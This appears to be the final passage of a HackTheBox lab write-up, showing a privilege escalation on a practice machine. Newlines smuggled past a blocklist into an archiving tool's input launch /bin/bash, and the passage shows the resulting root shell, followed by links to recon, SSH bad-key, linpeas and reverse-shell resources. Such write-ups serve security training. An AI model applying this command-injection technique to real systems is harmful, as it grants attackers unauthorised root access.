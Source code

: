 ```bash
           |                                                      |
            \_____________________________________________________/
                   \_______________________________________/
                _______________________________________________
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_
 _-'.-.-.-.-.-. .---.-. .-----------------------------. .-.---. .---.-.-.-.`-_
:-----------------------------------------------------------------------------:
`---._.-----------------------------------------------------------------._.---'


 [+] Validated access token
 [+] Starting archiving bla
/bin/bash
bla
 zip warning: name not matched: bla

zip error: Nothing to do! (try: zip -r -P magicword /tmp/.backup_776264943 . -i bla)
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@node:/tmp# whoami
root
```

Success! The newline characters made it through the blocklist and executed `/bin/bash`, dropping us in a root shell.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
